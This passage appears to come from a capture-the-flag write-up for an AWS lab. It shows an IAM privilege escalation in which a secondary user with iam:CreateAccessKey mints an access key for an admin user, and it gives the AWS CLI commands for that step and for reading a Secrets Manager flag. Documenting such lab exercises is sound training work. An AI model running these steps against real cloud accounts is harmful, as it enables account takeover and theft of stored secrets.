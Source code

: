 
## Gameplan

Based on the IAM enumeration results and policy analysis, it was identified that the `cgidjyfk5bfoad_secondary_user` possesses the `iam:CreateAccessKey` permission on all users.

This means the secondary user can generate new access keys for any IAM user, including those with administrative privileges.

> **Privilege escalation path identified:**  
> Create a new access key for the `cgidjyfk5bfoad_admin_user` to gain full administrative access to the AWS environment.

---

## Privilege Escalation - Creating Access Key for Admin Use

Created a new access key for the admin user:

```bash
aws iam create-access-key --user-name cgidjyfk5bfoad_admin_user --profile beanstalk2
```

Configured new profile `beanstalk3` with admin credentials:

```bash
aws configure --profile beanstalk3
```

Validated elevated privileges:

```bash
aws sts get-caller-identity --profile beanstalk3
```

---

## Retrieving Final Flag - Secrets Manager

Listed secrets in AWS Secrets Manager:

```bash
aws secretsmanager list-secrets --profile beanstalk3
```

Discovered secret:

```
Name: cgidjyfk5bfoad_final_flag
ARN: arn:aws:secretsmanager:us-east-1:727671863602:secret:cgidjyfk5bfoad_final_flag-nypnix
```

Retrieved the secret value:

```bash
aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-east-1:727671863602:secret:cgidjyfk5bfoad_final_flag-nypnix --profile beanstalk3
```

